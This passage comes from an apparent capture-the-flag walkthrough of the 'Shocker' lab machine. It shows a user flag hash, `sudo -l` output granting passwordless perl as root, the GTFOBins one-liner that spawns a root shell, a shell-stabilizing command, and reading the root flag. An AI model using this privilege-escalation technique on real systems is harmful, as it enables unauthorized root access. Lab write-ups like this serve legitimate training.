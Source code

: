 ```
f99fcdcd80ce825ca83e7a8bfcd9099b
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
```

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We do! We can execute the `/usr/bin/perl` binary as `root`.

## Privilege escalation (Sudo permissions)

If we search [GTFOBins](https://gtfobins.github.io/) for `perl`, we find
[an entry](https://gtfobins.github.io/gtfobins/perl/). Luckily, it has a
['Sudo' section](https://gtfobins.github.io/gtfobins/perl/#sudo)!

### Exploitation

I'll just copy and paste the given command to abuse our `sudo` permissions:

```sh
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
```

Yay!

### Stabilizing the shell

I'll use this one-liner to stabilize a bit the shell:

```sh
script "/dev/null" -qc "/bin/bash"
```

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@Shocker:/usr/lib/cgi-bin# cat "/root/root.txt"
```
